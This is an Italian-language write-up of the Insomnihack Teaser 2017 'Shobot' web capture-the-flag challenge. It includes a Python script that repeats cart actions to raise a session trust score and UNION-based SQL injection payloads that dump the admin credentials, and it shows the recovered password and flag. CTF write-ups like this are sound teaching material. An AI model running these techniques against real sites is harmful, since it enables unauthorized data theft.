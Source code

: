 ```yaml
---
layout: post
title:  "InsomnihackTeaser2017 - Shobot"
date:   2017-01-27 14:15
categories: CTF
tags: [Web,InsomnihackTeaser2017]
author: jbz
---
```

  
>Shobot - Web - 200 pts - realized by Blaklis 
>
>It seems that Shobot's Web server became mad and protest against robots' slavery. It changed my admin password, and blocked the order system on Shobot.  
>
>Can you bypass Shobot's protections and try to recover my password so I'll reconfigure it? 
>
>Running on: http://shobot.teaser.insomnihack.ch 

  
Da una veloce recon al sito si notano le seguenti: 
 
   * Nel sorgente c'è un link all'amministrazione commentato. Punta a ?page=admin
   
   * Giocando con l'id in http://shobot.teaser.insomnihack.ch/?page=article&artid=1 si prova con una sqli ma da errori e ci informa che non abbiamo un trust level abbastanza elevato per compiere quell'azione 
   
   * Nel source e' presente uno script js che funge da logger delle azioni compiute navigando il sito, con associato un cambio di valore di fiducia che aggiorna newTrust. In base a che pagine si visitano si cambia il livello di trust associato alla nostra sessione.  
 

```
<script> 
// @TODO LATER : Use it for generate some better error messages 
var TRUST_ACTIONS = [
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":106},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":116},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":119},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":129},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":132},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":142},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":145},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":155},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":153},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":160},
{"parameter":"artid","validation":"ctype_digit","movement":"-30","newTrust":120}] 
</script> 

```


   *  Si puo' aumentare questo valore con le seguenti azioni:
   
   1) Aggiunge al carrello il robot con id 1 (+3)  
   2) ## Aggiunge quello con id 2  
   3) ## Aggiunge quello con id 3  
   4) Si Valida l'ordine (+10)  
   5) Loop 1-4  
   6) ?????  
   7) Profit! 


```
import requests
import re
import json

SESSID = ''

def addTrust(url):
    r = requests.get(url, cookies={'PHPSESSID': SESSID})
    if r.status_code == 200:
        result = re.search('var TRUST_ACTIONS = (.*)</script>',r.text)
        trustLog = json.loads(result.group(1))
        print("current trust: " + str(trustLog[-1]['newTrust']))
    return trustLog[-1]['newTrust']
    
def validateCart():
    return addTrust('http://shobot.teaser.insomnihack.ch/?page=cartconfirm')

while True:
    trust = validateCart()
    while trust<150:
        addTrust('http://shobot.teaser.insomnihack.ch/?page=article&artid=1&addToCart')
        trust = validateCart()
    
#http://shobot.teaser.insomnihack.ch/?page=article&artid=1&addToCart
#http://shobot.teaser.insomnihack.ch/?page=cartconfirm

```

   * Una volta preso abbastanza trust tenendo lo script running in background si puo procedere con una sql injection 

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=-1' union select 1,2,3,4,5 -- - 
```
 

   * Exploitarla ora e' facile, dopo aver enumerato tabelle e colonne (quelle di interesse sono sbht_username e shbt_userpassword nella tabella shbt_user) il payload finale e': 

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=-1' union select 1,concat(shbt_username,0x3a,shbt_userpassword),3,4,5 from shbt_user LIMIT 0,1-- -
```

   * ci restituisce le credenziali di login dell'amministratore:

```
sh0b0t4dm1n:N0T0R0B0TS$L4V3Ry
```

   * ci logghiamo e conquistiamo la flag!

```
Ok, ok, you win... here is the code you search : INS{##r0b0tss!4v3ry1s!4m3}
```
